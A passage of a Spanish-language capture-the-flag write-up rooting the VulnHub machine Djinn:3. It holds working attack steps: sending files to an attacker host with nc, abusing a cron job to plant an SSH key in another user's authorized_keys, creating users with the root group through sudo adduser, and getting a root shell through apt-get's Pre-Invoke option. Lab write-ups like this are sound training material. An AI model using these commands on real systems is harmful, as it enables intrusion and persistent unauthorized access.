pip3 install uncompyle6
```

{: width="600" }

Una vez instalado debemos pasarnos los archivos `.pyc` a nuestra máquina atacante; para ello utilizaremos `nc`, ya que no tenemos credenciales *SSH* para utilizar `scp`.

```bash
# en nuestra máquina atacante nos ponemos en escucha para recibir el archivo
nc -nlvp 443
```

```bash
# desde la máquina víctima lo transferimos
nc 10.0.2.13 443 < .configuration.cpython-38.pyc
```

{: width="400" }

Una vez hecho, vemos que recibimos una conexión y obtenemos el contenido del archivo en nuestra máquina atacante.


Queda hacer lo mismo con el archivo restante.

{: width="700" }

Una vez hecho, podemos tratar de decompilarlos con `uncompyle6` de la siguiente manera:

```bash
uncompyle6 syncer.cpython-38.pyc > syncer.decompiled.py
uncompyle6 configuration.cpython-38.pyc > configuration.decompiled.py
```

Ahora sí que podemos ver el contenido de los archivos en texto claro.

- *syncer.decompiled.py*

{: width="600" }

- *configuration.decompiled.py*

{: width="600" }

Si recordamos, de la detección de tareas programadas a intervalos regulares de tiempo que ejecutamos antes con el script de bash, vimos que el usuario “saint” ejecutaba regularmente el script *syncer.py*. Este script tiene pinta de ser el que acabamos de decompilar con el nombre de *syncer.decompiled.py*, por lo que ya tenemos idea de las tareas que se están ejecutando en el sistema.

Sabiendo esto, igual podemos aprovecharnos de esta tarea para pivotar al usuario *saint*, que es quien la ejecuta en el sistema. Vamos a examinar los archivos en busca de algo de lo que tirar para ejecutar el *user pivoting*.

{: width="500" }

En este bloque de código del archivo *configuration.decompiled.py* se establecen los directorios donde busca el programa los archivos de configuración en formato `.json`. Entre las rutas se encuentra */tmp*, a la que sí tenemos acceso; el detalle a tener en cuenta es que, por los condicionales y validaciones establecidos también en este bloque de código, el archivo necesita tener el formato de nombre **06-11-2026.config.json** para pasar todas las comprobaciones y que el programa lo interprete.

En el *syncer.decompiled.py* se establece qué se hará con el contenido de dicho archivo, según las rutas definidas en el código. A nosotros nos interesa la opción que contiene la palabra URL, ya que, según parece, cuenta con dos parámetros a pasarle en el archivo `.json`: “URL” y “Output”. Si podemos pasarle una URL a un recurso e indicarle dónde soltar el output de lo que contenga, a nivel de ruta del sistema víctima, podríamos llegar a pivotar hacia el usuario saint creando un par de claves pública y privada, y añadiéndola al archivo *.ssh/authorized_keys* en el home del usuario.

Vamos a hacer una prueba de este funcionamiento que planteamos; lo primero es crear un archivo en el directorio */tmp* de la máquina víctima con el formato válido para pasar las validaciones del código, es decir:

```bash
nano /tmp/06-11-2026.config.json
```

El contenido de este archivo tiene que contener los parámetros “URL” y “Output” en formato json. Podríamos establecer lo siguiente:

```json
{
	"URL": "http://10.0.2.13/test",
	"Output": "/tmp/test" 
}
```

En nuestra máquina atacante creamos el archivo test con cualquier contenido, por ejemplo, “Esto es una prueba”, y levantamos un servidor HTTP con `python3` por el puerto 80.

```bash
python3 -m http.server 80
```

Y esperamos a que la tarea *cron* se ejecute, a ver si estamos en lo cierto.

{: width="600" }


Estamos en lo cierto. En este punto, vamos a tratar de compartir una clave *SSH* para acceder como el usuario “saint” sin proporcionar contraseña.

### Abuso de tareas Cron

Para esto, nos creamos un par de claves pública-privada y compartimos la pública con la máquina víctima, bajo el contexto del usuario “saint”, aprovechándonos de que podemos elegir la ubicación del sistema de archivos que queramos gracias al parámetro “Output” (en este caso, para una clave pública *SSH*, obviamente el archivo *authorized_keys*).

```bash
ssh-keygen
```

Una vez creadas, repetimos el proceso anterior para el archivo *authorized_keys*:

```bash
nano /tmp/06-11-2026.config.json
```

```json
{
	"URL": "http://10.0.2.13/authorized_keys",
	"Output": "/home/saint/.ssh/authorized_keys" 
}
```

Y el contenido del archivo de nuestra máquina atacante será nuestra clave pública recién creada.

```bash
 ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAA***************************** root@parrot
```

Una vez hecho, levantamos el servidor HTTP con python y esperamos a que llegue la petición para tratar de conectarnos por *SSH*.

```bash
python3 -m http.server 80
```



### User Pivoting

Nos llega la petición, por lo que queda probar si somos capaces de entablar la conexión SSH sin contraseña.

```bash
ssh saint@10.0.2.23
```

{: width="500" }

De esta manera, logramos ejecutar el *user pivoting* hacia “saint”. En este punto aplicaríamos la enumeración local desde el contexto del usuario “saint”.

```bash
find / -perm -4000 -ls 2> /dev/null | grep -vE "snap|proc"
```

{: width="700" }

De los binarios con permisos *suid* nos llaman la atención `at`, con el que podríamos spawnear una shell, y `pkexec`, que podríamos explotar con **pwnkit**. El inconveniente es que, respectivamente, el primero no tiene como propietario a root, y el segundo no parece ser la vía pensada para esta máquina, aunque está bien saberlo.

```bash
sudo -l
```



Vemos que podemos ejecutar el comando `adduser` como root, con la excepción de que se ha bloqueado específicamente la creación de cuentas o la manipulación de grupos con los nombres *sudo* o *admin*.



Vemos que, mediante parámetros, podemos indicar el uid y el gid del usuario a crear. El uid 0 nos dará error porque ya está en uso por el usuario root y no tendría mucho sentido, pero varios usuarios sí pueden pertenecer al mismo grupo, por lo que:

```bash
sudo adduser rg4rrido --gid 0
```

{: width="400" }

Creamos al usuario, establecemos la contraseña y veremos que pertenece al grupo root.



En este punto vamos a ver qué archivos sensibles podríamos leer, por ejemplo más permisos asignados a nivel de *sudoers*, si es que los hay.

{: width="600" }

Podemos leer el contenido del archivo debido a que pertenecemos al grupo root, y vemos que el usuario “jason” puede ejecutar el comando `apt-get` sin proporcionar contraseña. El usuario “jason” actualmente no existe en la máquina, pero, en algún momento, debió existir, y esa configuración se quedó atrás. Aprovechando que podemos crear usuarios con “saint”, vamos a crear este usuario “jason” y ver qué podemos hacer con ese binario.

```bash
# como saint
sudo adduser jason
```

{: width="500" }

Efectivamente, una vez como “jason”, podemos ejecutar este binario con privilegios de root, por lo que vamos a apoyarnos en [GTFOBins](https://gtfobins.org) para ver qué podemos hacer.

{: width="700" }

Podríamos tratar de hacer, por ejemplo, esto:

### Abuso de privilegios a nivel de sudoers

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```



Y efectivamente, logramos escalar al usuario root y completamos la máquina **Djinn:3** de VulnHub!!!


